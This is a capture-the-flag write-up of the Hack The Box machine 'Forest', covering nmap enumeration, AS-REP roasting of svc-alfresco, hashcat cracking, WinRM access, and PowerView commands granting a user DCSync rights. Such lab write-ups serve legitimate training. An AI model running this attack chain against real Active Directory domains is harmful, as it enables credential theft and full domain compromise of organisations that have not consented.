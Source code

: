 # Forest
Forest is an easy machine on the HacktheBox platform, primarily specializing in Active Directory exploitation. This machine was on TJNull's OSCP list and helped me pass the OSCP exam.

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.45 seconds
                                                                                                                                                                                             
shellph1sh@kali:~/Htb/forest$ sudo nmap -p 53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sC -sV -oA nmap/forest 10.10.10.161
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```



By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/914fb276-0b73-4bce-bb94-479c8cbbb499)

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)



We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)


Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

We get command execution!

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 


![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

```
net localgroup "Remote Management Users" htb.local\zeus /add
```

Utilize PowerView to give Zeus DCSync rights
```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

Then we can use Evil-WinRM once more to gain access to the `zeus` account

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)





